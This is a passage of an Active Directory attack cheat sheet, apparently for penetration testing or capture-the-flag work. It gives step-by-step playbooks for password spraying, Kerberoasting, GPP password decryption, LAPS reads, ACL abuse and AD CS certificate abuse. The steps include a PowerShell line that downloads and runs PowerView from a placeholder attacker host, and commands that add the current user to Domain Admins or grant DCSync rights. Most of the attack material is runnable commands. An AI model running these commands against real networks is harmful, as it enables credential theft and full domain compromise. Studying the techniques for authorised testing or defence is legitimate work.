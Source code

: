 ### 5.2 Password spraying
- **Use when:** You have usernames + a likely password pattern or single guess.
- **Goal:** One working low‑priv credential without lockouts.
- **Cmd:** See §3.1.
- **Expected:** “Login succeeded” hits.
- **Next:** BloodHound, LDAP dump, Kerberoast, WinRM.

### 5.3 Kerberoasting
- **Use when:** Any valid domain user exists.
- **Goal:** Crack service account passwords.
- **Cmd:** See §4.3. Hashcat **13100**.
- **Expected:** Service accounts cracked → often local admin somewhere.
- **Next:** BloodHound “Local Admin” query → pivot, loot creds → escalate.

### 5.4 GPP cPassword (SYSVOL)
- **Use when:** SYSVOL/Replication share accessible.
- **Goal:** Decrypt legacy GPP password.
- **Cmd:** §3.2 + `gpp-decrypt`.
- **Expected:** Reusable plaintext pass.
- **Next:** Test across SMB/WinRM. If service account → run §4.3 too.

### 5.5 LAPS read
- **Use when:** Your user is in LAPS readers or similar.
- **Goal:** Read local Administrator password of a host (even DC).
- **Cmd (PowerShell on victim or via WinRM):**
  ```powershell
  Import-Module AdmPwd.PS
  Get-AdmPwdPassword -ComputerName DC01
  ```
- **Expected:** Cleartext password.
- **Next:** Log in as `Administrator` on that host.

### 5.6 ACL abuse (WriteDACL / GenericAll / AddMember)
- **Use when:** BloodHound shows rights on users/groups/computers.
- **Goal:** Grant yourself new rights or add yourself to a powerful group.
- **Cmd (PowerView on victim):**
  ```powershell
  IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER/PowerView.ps1')
  Add-DomainGroupMember -Identity "Domain Admins" -Members "$env:USERDOMAIN\$env:USERNAME"
  # or grant DCSync on the domain root to self:
  Add-DomainObjectAcl -TargetIdentity "DC=example,DC=local" -PrincipalIdentity "$env:USERNAME" -Rights DCSync
  ```
- **Expected:** Silent success.
- **Next:** DCSync (§5.8) or just re‑log as DA.

### 5.7 AD CS (certificates) fast check
- **Use when:** Port 80/443 shows CA pages or `certsrv`, or BloodHound flags ADCS.
- **Goal:** Abuse vulnerable templates (ESC1–ESC8).
- **Kali (certipy):**
  ```bash
  certipy find -u $USER@$DOMAIN -p "$PASS" -dc-ip $TARGET -vulnerable
  # If vulnerable:
  certipy req -u $USER@$DOMAIN -p "$PASS" -target $DC -template <Templ> -upn Administrator@$DOMAIN -ca <CA>
  certipy auth -pfx <file.pfx>
  ```
- **Expected:** PFX for elevated identity.
- **Next:** Use certificate for auth (e.g., Evil‑WinRM `-S -c -k`).
